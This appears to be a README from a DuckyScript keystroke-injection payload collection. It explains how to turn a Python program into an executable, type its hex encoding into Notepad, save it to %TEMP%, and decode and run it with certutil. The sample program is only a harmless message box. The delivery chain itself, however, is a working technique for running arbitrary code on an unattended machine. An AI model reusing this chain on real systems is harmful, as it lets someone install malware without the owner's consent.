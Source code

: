 # Install And Run Any Arbitrary Executable - No Internet And Root Needed

Through this guide you will be able to create executable programs that can be installed via DuckyScript in such a way as to avoid using the Internet altogether. This type of installation can lead to serious damage to machines so do it only if you are fully aware and sure of what you are doing, in this example you will already find the code in hexadecimal but if you want to be sure recompile the executable following the following guide.

Executables have been removed for security reasons.

**Category**: Execution

# Guide to Creating an Executable Program using Python

## Introduction

This guide provides detailed instructions on how to use Python to create an executable program, generate hexadecimal code, and automate the execution of the application trough DuckyScript. Practical example in assets directory.

## Creating the Python Program

To begin, create a Python program that performs the desired functionality. You can use any programming language of your choice, but for this guide, we'll be using Python.

```python
import ctypes

ctypes.windll.user32.MessageBoxW(None, "Hello Hak5!", 'Info', 0x10 | 0x1)
```

## Creating the Executable using PyInstaller

Once the Python program is ready, we can use PyInstaller to create an executable file. PyInstaller converts the Python program into a standalone executable that can be run on any compatible system without requiring Python to be installed.

Install PyInstaller using the following command:

```powershell
pip install pyinstaller
```

To create the executable, run the following command in the terminal:

```powershell
pyinstaller --onefile full/path/to/the/file/example.py
```

Replace `example.py` with the filename of your Python script. The `--onefile` flag ensures that the output is a single executable file. Remember that the executable file can be found within the path `dist/example.exe`.

## Generating Hexadecimal Code

Next, we'll generate the hexadecimal code from the executable file. This step is necessary if you intend to automate the execution of the program.

To generate the `hexadecimal` code, you can use various methods or libraries. In this case I decided to create another program in Python capable of doing this conversion, the partial code is as follows but you can find the entire file in the assets folder.

```python
# Rest of the code...
with open(filename, 'rb') as file:
    binary_data = file.read()
    hex_code = binascii.hexlify(binary_data).decode()
# ...
```

## Creating a DuckyScript to Automate Execution

To create the payload in DuckyScript you simply add the hexadecimal code inside a STRING command immediately after opening the notepad.

```duckyscript
DEFINE #HEX_CODE <hexadecimal_code>

DELAY 500
GUI r
DELAY 500
STRING notepad.exe
ENTER
DELAY 500
STRING #HEX_CODE

DELAY 2000
ALT F
DELAY 1000
STRING S
DELAY 1000
ALTSTRING "%TEMP%\script.hex"
```

Replace `<hexadecimal_code>` with the actual hexadecimal code generated in the previous step. I used a combo ALT F and STRING S for save the file using `"%TEMP%\script.hex"` that save it in a `TEMP` directory

## Decoding Hexadecimal Code and Executing the Program
Now, we need to decode the hexadecimal code and execute the program. We can use the `certutil` command to accomplish this.

Once saved the file with a hex extension, run the following command in the Command Prompt:

```powershell
certutil -f -decodeHex "%TEMP%\script.hex" "%TEMP%\script.exe"
```

Replace `script.exe` with the desired output filename for the decoded program.

Finally, run the executable on the computer, or any other compatible device, to open start execution of the program.

These are the steps required to create an executable program with Python, generate the hexadecimal code, and automate its execution. Feel free to modify the instructions to suit your specific needs or programming language preferences.

Happy Hacking!

